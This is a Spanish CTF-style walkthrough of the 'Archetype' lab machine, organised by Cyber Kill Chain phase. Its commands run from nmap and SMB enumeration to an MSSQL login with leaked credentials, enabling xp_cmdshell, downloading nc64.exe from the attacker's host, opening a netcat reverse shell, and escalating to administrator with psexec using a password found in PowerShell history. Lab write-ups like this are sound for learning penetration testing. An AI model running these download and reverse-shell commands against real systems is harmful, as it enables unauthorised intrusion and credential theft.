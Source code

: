
Debido a que es una maquia inicial y se encuentre ampliamente documentada, en este artículo se resumen los pasos dentro de las fases de la "Cyber Kill Chain" y se escriben los comandos de cada uno.
Para comprender todos los pasos realizados, es fundamental tener en cuenta que la situación final deseable es acceder a la máquina objetivo con privilegios de administrador.

## 1. Reconnaissance

En esta fase, se ejecuta nmap para enumerar la máquina objetivo.
```shell
nmap -sC -sV {dest-IP}
```
Se observa esta información significativa:
```shell
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
|   DNS_Domain_Name: Archetype
|   DNS_Computer_Name: Archetype
|_  Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2021-12-30T18:06:04
|_Not valid after:  2051-12-30T18:06:04
|_ssl-date: 2021-12-30T18:13:51+00:00; +10m45s from scanner time.
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```
Posteriormente se enumeran los recursos compartidos por SMB:
```shell
smbclient -N -L \\\\{dest-IP}

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available
```
Se accede a backups y se observa en un documento la siguiente información, que corresponde con el nombre de usuario y la contraseña del mssql del puerto 1433:
```
Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;
```
## 2. Weaponization

En esta fase todo el sofware a utilizar posteriormente ya se encuentra desarrollado y es el siguiente. Aunque se va necesitando según se analiza la máquina, se expone en esta fase para simplificar la comprensión.

1. [Impacket](https://github.com/SecureAuthCorp/impacket) - script mssqlclient.py - Utilizado como cliente mssql para conectarse al servicio con las credenciales encontradas
2. [nc64.exe](https://github.com/int0x33/nc.exe/blob/master/nc64.exe) - Netcat for NT 64 bits - Para conectarse de manera remota al host
3. [winPEASx64.exe](https://github.com/carlospolop/PEASS-ng/releases/tag/refs/pull/252/merge) - Para la escalada de privilegios en Windows con las credenciales de 'administrator'
4. script psexec.py de Impacket, utilzado para obtener una shell como administrador

## 3. Delivery

Utilizando las credenciales de mssql, se conecta mediante el script mssqlclient.py de impacket al servidor MSSQL.
```
python3 mssqlclient.py ARCHETYPE/sql_svc@{dest-IP} -windows-auth
```
Como se conocen en profundidad las características de MSSQL Server que se exponen en los artículos citados a continuación, se comprueba si la opción xp_cmdshell está activada.
* [Pentesting MSSQL - Microsoft SQL Server](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server)
* [MSSQL Injection Cheat Sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)

```
SELECT is_srvrolemember('sysadmin'); #Para comprobar si se tienen permisos de administrador con el usuario ARCHETYPE/sql_svc 
```
Como sí se tienen, se prueba si xp_cmdshell está activada y como no lo está, se activa de la siguiente forma:

```
EXEC xp_cmdshell 'net user'; — privOn MSSQL 2005 you may need to reactivate xp_cmdshell
first as it’s disabled by default:
EXEC sp_configure 'show advanced options', 1; — priv
RECONFIGURE; — priv
EXEC sp_configure 'xp_cmdshell', 1; — priv
RECONFIGURE; — priv
```
A continuación se sube a la máquina el ejecutable nc64.exe mediante wget

```
 # En el host
sudo python3 -m http.server 80  #Se prepara un servidor http en la misma carpeta que contiene el ejecutable
```
```
 # En la máquina
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://host-IP/nc64.exe -outfile nc64.exe"
```
Ahora se pone en modo escucha Netcat en el host por el puerto 443
```
nc -lvnp 443
```
## 4.Exploitation

En esta fase, se contempla tanto la explotación de la máquina como la escalada de privilegios.
A continuación se abre una shell desde la máquina usando nc64.exe
```
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe host-IP 443"
```
Una vez hecho este paso, posemos encontrar el flag de usuario en el escritorio.

Para la escalada de privilegios, hacemos uso de winPEASx64.exe, subiéndolo igual que el otro ejecutable.
```
powershell
wget http://host-IP/winPEASx64.exe -outfile winPEASx64.exe
```
Se ejecuta y de toda la información mostrada, destaca la expuesta
```
.\winPEASx64.exe

 SeImpersonatePrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED  #Permite la escalada de privilegios de diferentes formas

```

De la misma forma que .bash_history, PowerShell tiene otro historial llamado ConsoleHost_history.txt que se encuentra en
```
C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\
```
Si se accede, se ecuentra lo siguiente: /user:administraror MEGACORP_4dm1n!!
Por lo que haciendo uso de la contraseña y el script psexec.py, obtenemos una shell de administrador en la máquina
```
python3 psexec.py administrator@{TARGET_IP}
```
Y como siempre, en el escritorio, encontramos la flag :)

Debido a que no se obtiene persistencia ni se borran las pruebas, las siguientes fases no se llevan a cabo

## 5. Installation
## 6. Command and Control
## 7. Contain
